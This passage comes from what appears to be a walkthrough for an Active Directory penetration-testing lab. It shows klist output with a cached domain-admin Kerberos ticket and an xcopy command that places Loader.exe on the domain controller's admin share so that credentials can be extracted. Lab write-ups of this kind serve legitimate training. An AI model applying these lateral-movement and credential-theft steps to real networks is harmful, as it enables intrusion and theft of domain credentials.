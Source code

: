![New spawned terminal process](./assets/screenshots/learning_objective_20_new_spawned_terminal_process.png)

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`klist`:
```
Current LogonId is 0:0x3289056

Cached Tickets: (1)

#0>     Client: svcadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/17/2025 6:28:33 (local)
        End Time:   2/17/2025 16:28:33 (local)
        Renew Time: 2/24/2025 6:28:33 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Run the below commands from the process running as DA to copy `Loader.exe` on `dcorp-dc` and use it to extract credentials.

`echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y`:
```
C:\AD\Tools\Loader.exe
1 File(s) copied
```

